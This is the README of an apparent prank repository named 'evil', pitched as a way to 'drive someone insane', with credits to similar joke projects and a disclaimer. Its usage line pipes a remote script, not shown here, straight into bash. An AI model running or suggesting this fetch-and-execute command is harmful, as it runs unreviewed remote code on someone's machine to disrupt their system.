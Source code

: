 # evil
How do you drive someone insane?

#Usage
curl -s "https://raw.githubusercontent.com/johnny-y-wang/evil/master/troll.sh" | bash /dev/stdin arg1 arg2

#Credit
https://github.com/tlrobinson/evil.css

https://github.com/mathiasbynens/evil.sh

#Disclaimer
I'm not responsible for any evil caused by this script. Public domain.
